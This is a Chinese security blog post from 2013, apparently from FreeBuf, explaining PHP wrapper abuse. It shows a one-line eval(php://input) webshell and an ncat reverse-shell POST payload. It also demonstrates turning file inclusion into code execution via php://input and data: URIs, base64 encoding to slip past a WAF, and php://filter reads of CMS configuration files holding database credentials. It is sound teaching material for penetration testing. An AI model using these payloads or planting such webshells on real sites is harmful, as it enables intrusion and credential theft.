





## php://input，php://filter，data URI schema的那些事 

 [碳基体][0]  

 2013-10-15  

 **一、php://input一句话木马**

 在调研dedecms的历史漏洞时，发现了dedecms安装文件曾经出过被植入后门的漏洞（[SSV-ID][2]站点include目录下shopcar.class.php文件被植入一句话木马）

    @eval(file_get_contents('php://input'))

我是个十足的php菜鸟，只有用到的时候才会去查查语法书，对php://input也只是有点印象而已，于是用脚本phpinput.php,配合firefox Hackbar插件测试了一下php://input的功能。 

    <?php
    $data=file_get_contents('php://input');
    echo $data." ";
    //@eval(file_get_contents('php://input'))
    ?>

 发现**php://input是用来接收post数据**（这里有[php://input][3]的介绍）

注释掉phpinput.php的打印语句 

    <?php @eval(file_get_contents('php://input'))?>

使用firefox的hackbar提交上图显示的post data： 

    system('ncat -e /bin/bash localhost 1234');

 测试了一下nc反弹shell的利用，成功

看来，只要构造了合适的POST数据，就能达到getshell的目的。 

**二、php://input将文件包含漏洞变成代码执行漏洞**  
顿时觉得php://input好神奇，于是进一步搜索它还能发挥哪些作用。 

在这里感谢Casperkid大牛的文章《[php LFI读php文件源码以及直接post webshell][4]》，我才知道文件包含可以这样深入。 

接下来，演示TA是如何将文件包含漏洞转变成代码执行的漏洞。方法参考[LFI exploitation via php://input][5]

首先看一段存在文件包含漏洞的代码 

    <?php @include($_GET["file"])?>

 我们使用php://input，将执行代码通过Firefox 的hackbar 在POST data中提交

    <?php system('ifconfig');?>

 看，文件包含漏洞变成代码执行漏洞了

**三、data URI schema将文件包含漏洞变成代码执行漏洞并绕过360网站卫士的WAF**

那还有哪些办法，可以同样做到代码执行呢，Casperkid大牛的文章中提到，[data URI schema][6]的使用就可以达到这样的效果。  
data URI schema，我曾经在做钓鱼的练习中，将攻击代码生成这种格式并配合短地址转换来生成恶意url，见《[利用iframe URI钓][7]鱼》，但没想到可以用在文件包含漏洞中。 

接下来演示如何实施。 

在实施的时候，我突然想到，文件包含漏洞，在读取php文件时，是不能显示文件内容的。  
而很多情况，我们是急需读取PHP格式的配置文件，例如 

    dedecms数据库配置文件data/common.inc.php,
    discuz全局配置文件config/config_global.php,
    phpcms配置文件caches/configs/database.php
    phpwind配置文件conf/database.php
    wordpress配置文件wp-config.php

以便下一步渗透测试 

于是我写了一段读取指定文件FileInclude.php的代码 

    <?php system('cat /var/www/FileInclude.php')?>

 然后将攻击代码转化成data:URI，

    data:text/plain,<?php system('cat /var/www/FileInclude.php')?>

 运行，如下

注意，我们看到转化后的GET请求的参数中包含<?的标记，在遇到有些WAF，包括云WAF（例如360网站卫士），就会将其视为攻击代码，阻挡下来。于是我们需要做一下编码处理 

    data:text/plain;base64,［攻击代码的base64编码］

 运行，如下

**四、php://filter在文件包含漏洞中的利用——读取php文件源码内容**  
经过上面的操作，我们知道php://input与data:URI schema可以将文件包含漏洞变成代码执行漏洞从而getshell。接下来看看php://input的好基友php://filter能做什么呢 

参考[LFI’s Exploitation Techniques][8],我们可以采用[php://filter][9]以base64编码的方式读取指定文件的内容： 

    php://filter/read=convert.base64-encode/resource=［文件路径］

 下面演示通过php://filter读取本包含漏洞脚本的源码

 接下来只要将base64编码后的字符串通过base64解码就可得到PHP文件的源码了

**参考：**  
http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/  
http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html  
http://hi.baidu.com/qingsh4n/item/92ffa87281e7ee226cc37cc7  
http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0

http://www.php.net/manual/zh/wrappers.php.php

[0]: http://www.freebuf.com/author/%e7%a2%b3%e5%9f%ba%e4%bd%93
[1]: http://www.freebuf.com/./articles/web
[2]: http://sebug.net/vuldb/ssvid-30207
[3]: http://php.net/manual/zh/wrappers.php.php
[4]: http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0
[5]: http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html
[6]: http://en.wikipedia.org/wiki/Data_URI_scheme
[7]: http://danqingdani.blog.163.com/blog/static/186094195201332723950108/
[8]: http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/
[9]: http://www.php.net/manual/zh/wrappers.php.php